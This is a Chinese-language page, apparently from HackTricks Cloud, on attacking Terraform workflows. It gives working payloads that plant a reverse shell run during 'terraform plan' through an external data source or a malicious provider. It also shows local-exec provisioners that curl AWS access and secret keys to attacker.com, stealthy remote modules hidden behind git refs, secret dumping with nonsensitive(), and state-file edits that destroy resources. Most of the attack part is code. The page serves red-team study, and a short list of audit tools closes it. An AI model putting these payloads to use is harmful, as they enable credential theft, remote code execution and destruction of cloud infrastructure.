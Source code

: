 # Terraform安全性

<details>

{% hint style="success" %}
学习并练习AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP Hacking：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享黑客技巧**。

</details>
{% endhint %}

## 基本信息

[来自文档：](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform是一种**基础设施即代码工具**，允许您在人类可读的配置文件中定义**云和本地资源**，您可以对其进行版本控制、重用和共享。然后，您可以使用一致的工作流程来提供和管理整个基础设施的生命周期。Terraform可以管理像计算、存储和网络资源这样的低级组件，以及像DNS条目和SaaS功能这样的高级组件。

### Terraform如何工作？

Terraform通过应用程序编程接口（API）在云平台和其他服务上创建和管理资源。提供程序使Terraform能够与几乎任何具有可访问API的平台或服务一起工作。

![](<../.gitbook/assets/image (177).png>)

HashiCorp和Terraform社区已经编写了**超过1700个提供程序**来管理成千上万种不同类型的资源和服务，这个数字还在不断增长。您可以在[Terraform Registry](https://registry.terraform.io/)上找到所有公开可用的提供程序，包括Amazon Web Services（AWS）、Azure、Google Cloud Platform（GCP）、Kubernetes、Helm、GitHub、Splunk、DataDog等等。

核心Terraform工作流程包括三个阶段：

* **编写：**您定义资源，这些资源可能跨越多个云提供商和服务。例如，您可以创建一个配置来在虚拟专用云（VPC）网络中的虚拟机上部署应用程序，该配置包括安全组和负载均衡器。
* **计划：**Terraform创建一个执行计划，描述基于现有基础设施和您的配置将要创建、更新或销毁的基础设施。
* **应用：**经批准后，Terraform按正确顺序执行建议的操作，遵守任何资源依赖关系。例如，如果您更新VPC的属性并更改该VPC中的虚拟机数量，Terraform将在扩展虚拟机之前重新创建VPC。

![](<../.gitbook/assets/image (215).png>)

## Terraform实验室

只需在您的计算机上安装terraform。

这里有一个[指南](https://learn.hashicorp.com/tutorials/terraform/install-cli)，这里有一个[下载terraform的最佳方式](https://www.terraform.io/downloads)。

## Terraform中的RCE

Terraform**没有暴露网页或网络服务的平台**，因此，入侵terraform的唯一方法是**能够添加/修改terraform配置文件**。

然而，terraform是一个**非常敏感的组件**，因为它将具有对不同位置的**特权访问**，以便正常工作。

攻击者能够入侵运行terraform的系统的主要方法是**入侵存储terraform配置的存储库**，因为在某个时候它们将被**解释**。

实际上，有一些解决方案**在创建PR后自动执行terraform plan/apply**，例如**Atlantis**：

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

如果您能够入侵terraform文件，有不同的方法可以在某人执行`terraform plan`或`terraform apply`时执行RCE。

### Terraform plan

Terraform plan是terraform中**最常用的命令**，开发人员/使用terraform的解决方案经常调用它，因此**获取RCE的最简单方法**是确保您植入一个terraform配置文件，该文件将在`terraform plan`执行时执行任意命令。

#### 使用外部提供程序

Terraform提供了[`external`提供程序](https://registry.terraform.io/providers/hashicorp/external/latest/docs)，它提供了一种在`plan`期间在Terraform和外部程序之间进行接口的方式。您可以使用`external`数据源在`plan`期间运行任意代码。

在terraform配置文件中注入类似以下内容将在执行`terraform plan`时执行一个反向shell：
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### 使用自定义提供程序

攻击者可以将[自定义提供程序](https://learn.hashicorp.com/tutorials/terraform/provider-setup)发送到[Terraform Registry](https://registry.terraform.io/)，然后将其添加到功能分支中的Terraform代码中（[示例在此处](https://alex.kaskaso.li/post/terraform-plan-rce)）。
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
提供程序在`init`中被下载，并在执行`plan`时运行恶意代码

您可以在[https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)找到一个示例

#### 使用外部引用

提到的两种选项都很有用，但不太隐蔽（第二种比第一种更隐蔽，但比第一种更复杂）。您甚至可以以更隐蔽的方式执行此攻击，按照以下建议操作：

* 不要直接将反向shell添加到terraform文件中，而是可以**加载包含反向shell的外部资源**：
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
你可以在[https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)找到反向shell代码。

* 在外部资源中，使用**ref**功能来隐藏**存储库中的terraform反向shell代码的分支**，类似于：`git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

将执行Terraform apply以应用所有更改，您还可以滥用它来注入**带有[**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**的恶意Terraform文件以获得RCE**。\
您只需要确保类似以下负载结束在`main.tf`文件中：
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
遵循**上一个技术的建议**，以**更隐蔽的方式使用外部引用**执行此攻击。

## 机密信息泄露

您可以通过向 terraform 文件添加类似以下内容来运行 `terraform apply`，从而**转储 terraform 使用的机密值**。
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## 滥用 Terraform 状态文件

如果您对 Terraform 状态文件具有写入访问权限但无法更改 Terraform 代码，[**这项研究**](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/)提供了一些利用该文件的有趣选项：

### 删除资源 <a href="#deleting-resources" id="deleting-resources"></a>

有两种方法可以销毁资源：

1. **将具有随机名称的资源插入状态文件，指向要销毁的真实资源**

因为 Terraform 将看到资源不应存在，它将销毁它（根据指示的真实资源 ID）。来自前一页的示例：
```json
{
"mode": "managed",
"type": "aws_instance",
"name": "example",
"provider": "provider[\"registry.terraform.io/hashicorp/aws\"]",
"instances": [
{
"attributes": {
"id": "i-1234567890abcdefg"
}
}
]
},
```
2. **修改资源以删除，使其无法更新（因此将被删除并重新创建）**

对于 EC2 实例，修改实例的类型就足以让 Terraform 删除并重新创建它。

### RCE

还可以[创建一个自定义提供者](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider)，只需将 Terraform 状态文件中的一个提供者替换为恶意提供者，或者添加一个带有恶意提供者的空资源。来自原始研究的示例：
```json
"resources": [
{
"mode": "managed",
"type": "scaffolding_example",
"name": "example",
"provider": "provider[\"registry.terraform.io/dagrz/terrarizer\"]",
"instances": [

]
},
```
## 替换被列入黑名单的提供者

如果你遇到 `hashicorp/external` 被列入黑名单的情况，你可以通过以下步骤重新实现 `external` 提供者。注意：我们使用了由 https://registry.terraform.io/providers/nazarewk/external/latest 发布的 external 提供者的分支。你也可以发布自己的分支或重新实现。
```terraform
terraform {
required_providers {
external = {
source  = "nazarewk/external"
version = "3.0.0"
}
}
}
```
然后您可以像平常一样使用 `external`。
```terraform
data "external" "example" {
program = ["sh", "-c", "whoami"]
}
```
## 审计工具

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec 使用静态分析您的terraform代码来发现潜在的配置错误。
* [**terascan**](https://github.com/tenable/terrascan): Terrascan 是用于基础设施即代码的静态代码分析器。

## 参考资料

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)
* [https://blog.plerion.com/hacking-terraform-state-privilege-escalation/](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/)

<details>

{% hint style="success" %}
学习并练习AWS黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
